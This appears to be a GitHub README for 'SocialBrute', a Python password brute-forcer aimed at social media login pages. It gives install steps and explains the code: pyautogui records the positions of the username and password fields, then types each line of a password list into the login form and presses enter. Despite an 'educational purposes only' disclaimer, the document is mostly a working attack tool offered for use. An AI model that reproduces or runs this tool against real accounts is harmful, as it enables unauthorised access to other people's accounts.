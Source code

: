 <h1 align="center">SocialBrute</h1>
<p align="center">This is a bruteforce attacker made in Python. Any misuse is beyond my responsibility this is for educational purposes only</p>

##### NOTE: YOU CAN ALTER THE CODE FOR OTHER SITES AS IT MAY COME UP WITH A POPUP EVERYTIME ITS WRONG BUT I WILL ADD THSES FEATURES IN NEWER VERSIONS

<p align="center">
  <img src="BANNER.png">
</p>

## Requirements
----

- Python 3.9+
- getpass
- date 
- colorama
- sys
- time
- keyboard
- pyautogui 
- os
- requests 
- webbrowser
- time
- string
- random

---- 

## Usage
----

```
git clone https://github.com/unofficialdxnny/socialbrute

```

``` 
cd socialbrute

```

```
pip install requirements.txt

```

```
python main.py

```


<p align="center">
  <img src="disclaimer.png">
</p>



## Code Explanation



This is the banner
```py

print("""
                  
                  
         
            /££££££                      /££           /££ /£££££££                        /££              
           /££__  ££                    |__/          | ££| ££__  ££                      | ££              
          | ££  \__/  /££££££   /£££££££ /££  /££££££ | ££| ££  \ ££  /££££££  /££   /££ /££££££    /££££££ 
          |  ££££££  /££__  ££ /££_____/| ££ |____  ££| ££| £££££££  /££__  ££| ££  | ££|_  ££_/   /££__  ££
           \____  ££| ££  \ ££| ££      | ££  /£££££££| ££| ££__  ££| ££  \__/| ££  | ££  | ££    | ££££££££
           /££  \ ££| ££  | ££| ££      | ££ /££__  ££| ££| ££  \ ££| ££      | ££  | ££  | ££ /££| ££_____/
          |  ££££££/|  ££££££/|  £££££££| ££|  £££££££| ££| £££££££/| ££      |  ££££££/  |  ££££/|  £££££££
           \______/  \______/  \_______/|__/ \_______/|__/|_______/ |__/       \______/    \___/   \_______/
                                                                                                  
                                                                   Author: unofficialdxnny
                                                                       Version: 1.0.0                               
                                                                                                  
""")

```


The modules that are imported and wil be used
```py

import getpass
from datetime import date 
from colorama import Fore, Back, Style
import sys
from time import sleep
import keyboard
import pyautogui as pag
import os
import requests 
import webbrowser
import time
import string
import random

```



 Gets system time
```py

today = date.today()

## date format
d2 = today.strftime("%B %d, %Y")

print(d2)

```



Typewriter effect
```py

def type(text):
  words = text
  for char in words:
    sleep(0.1)
    sys.stdout.write(char)
    sys.stdout.flush()
type('Program launched successfully today @ ')
```

Records than prints the username box coordinates
```py

if keyboard.read_key() == "enter":
  usernamebar = pag.position()
  print(f"Cords captured: {usernamebar}")
  time.sleep(2)

  ```

Records coordinates for password box
```py

if keyboard.read_key() == "enter":
  passwordbar = pag.position()
  print(f"Cords captured: {passwordbar}")
  time.sleep(5)
```

Goes to the username box
```py

pag.moveTo(usernamebar[0], usernamebar[1], 0.5)
pag.click()
time.sleep(2)




keyboard.write(username)
```
Goes to password box
```py

pag.moveTo(passwordbar[0], passwordbar[1], 0.5)
pag.click()
time.sleep(2)
```

Types in passwords from list
```py
def startPasting():
  time.sleep(5) # time before starting the paste sequence
  text = open('passwords.txt')
  for each_line in text:
    time.sleep(2)
    pag.press("ctrl + a")
    time.sleep(2)
    pag.press("backspace")
    pag.typewrite(each_line)
    time.sleep(2)
    pag.press("enter")
  text.close()
startPasting()
```
